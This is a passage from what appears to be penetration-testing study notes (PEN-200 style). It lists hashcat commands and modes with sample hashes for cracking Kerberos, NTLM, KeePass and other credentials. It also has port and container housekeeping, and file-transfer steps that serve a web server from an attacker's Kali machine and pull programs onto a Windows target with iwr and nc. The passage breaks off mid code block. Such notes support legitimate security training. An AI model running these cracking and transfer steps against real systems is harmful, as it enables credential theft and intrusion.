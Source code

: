   `hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`  
  - Linux
    - md5crypt ($1$) -m 500 `$1$28772684$iEwNOgGugqO9.bIz5sk8k/`  
    - phpass / WordPress ($P$) -m 400 `$P$984478476IagS59wHZvyQMArzfx58u.`  
    - OpenSSH Private Key ($sshng$6$) -m 22921 `$sshng$6$8$7620048997557487....`  
  - Windows
    - **NTLM -m 3000** `b4b9b02e6f09a9bd760f388b67351e2b`  
    - **LM -m 3000** `299bd128c1101fd6`  
    - NetNTLMv2 -m 5600 `admin::N46iSNekpT:08ca45b7d7ea58ee:88dcbe4446168966a153a0064958dac6:5c7830315c78303100000`  
    - Kerberos 5 AS-REP (etype 23) ($krb5asrep) -m 18200 `$krb5asrep$23$user@domain.com:3e156ada591263b8aa`  
    - Kerberos 5 TGS-REP (etype 23) ($krb5tgs) -m 13100 `$krb5tgs$23$*user$realm$test/spn*$63386d22d359fe42230300d56852c9eb$891ad31d0`  
  - Application
    - **MD5 -m 0** `8743b52063cd84097a65d1633f5c74f5` (32 hex)  
    - **SHA-1 -m 100** `b89eaac7e61417341b710b727768294d0e6a277b` (40 hex)  
  - DB
    - KeePass -m 13400 ($keepass$*1) `$keepass$*1*50000*0*375756b9e6c72891a8e5645a3338b8c`  
    - Atlassian (PBKDF2-HMAC-SHA1) -m 12001 `{PKCS5S2}NzIyNzM0NzY3NTIwNjI3MdDDis7wPxSbSzfFqDGf7u/L00kSEnupbz36XCL0m7wa`  

# Check/kill ports and containers  
- Ports
  - List all listening ports `sudo netstat -tulnp`  
  - check port usage `sudo lsof -i :<port>`  
  - kill port `sudo kill -9 <PID>`  
- Containers
  - List running docker containers `docker ps`
  - Stop a docker container `docker stop <container_id>`
  - Remove a docker `docker rm <container_id>`  

# Files transfer 
[PEN-200 Transferring file from Windows machine to local Kali VM](https://discordapp.com/channels/780824470113615893/1148907181480104028/1148907181480104028)
 
- **Window**
  - **Transfer back/forth to Windows target**
    ```
    #RDP mounting shared folder
    xfreerdp3 /u:<USERNAME> /p:<PASSWORD> /v:<IP_ADD> /cert:ignore /drive:share,/home/kali/share
    rdesktop -u <USERNAME> -p <PASSWORD> -d corp.com -r disk:share=/home/kali/share <IP_ADD>

    ###To target Windows###
    ##iwr kali web server
    cd /var/www/html
    sudo python3 -m http.server 80
    nc <target> <port>
    iwr -uri http://<kali>/<program> -Outfile <program>
